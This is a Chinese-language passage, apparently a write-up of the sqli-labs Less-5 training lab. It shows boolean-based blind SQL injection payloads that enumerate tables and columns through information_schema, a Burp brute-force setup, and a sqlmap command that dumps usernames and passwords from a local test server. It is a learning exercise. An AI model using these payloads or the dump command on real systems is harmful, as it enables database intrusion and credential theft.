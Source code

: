 ![img](https://cdn.nlark.com/yuque/0/2024/png/42552309/1732437635507-9e91ecdc-a611-4fe6-a7af-343a5bded2b9.png)

攻击结果如下

![img](https://s2.loli.net/2024/11/24/Tubl9KFSEGMOfjw.png)

表名推出为security

```sql
id=1' and (select count(table_name) from information_schema.tables where table_schema='security')=4 -- +
```

##### 之后逐渐测试库有多少个

当=4时显示如下

![img](https://cdn.nlark.com/yuque/0/2024/png/42552309/1732438601192-f0f650b3-8c02-4f63-80f6-d9bcf7ef8e68.png)

说明有4个数据库

爆破库名

开始burp爆破流程

```sql
?id=1 and substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e' -- +
```

三个需要修改的值为limit第一个值，第二组第一个值，以及a

字典一：security库中有4个表，所以字典一内容是0-3

字典二:指定库中最长表名有n个字母，所以字典二内容是1-n(可以挨个试试看看最长是几位，图省事搞一个2位数就行)

字典三：指定表的表名，所以字典内容是字母a-z

![img](https://cdn.nlark.com/yuque/0/2024/png/42552309/1732456872150-dacf9e72-ddf8-40a1-b60b-a34b62db5d0f.png)

之后爆破列名

```sql
?id=1'and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))='a'--+
```

![img](https://cdn.nlark.com/yuque/0/2024/png/42552309/1732457096832-dd639b37-dd08-4623-8f95-7bda05615491.png)

组合得到

##### 也可以直接sqlmap

```sql
sqlmap.py -u http://127.0.0.1/sqli/Less-5/?id=1 -D security -T users -C "id,password,username" --dump
```


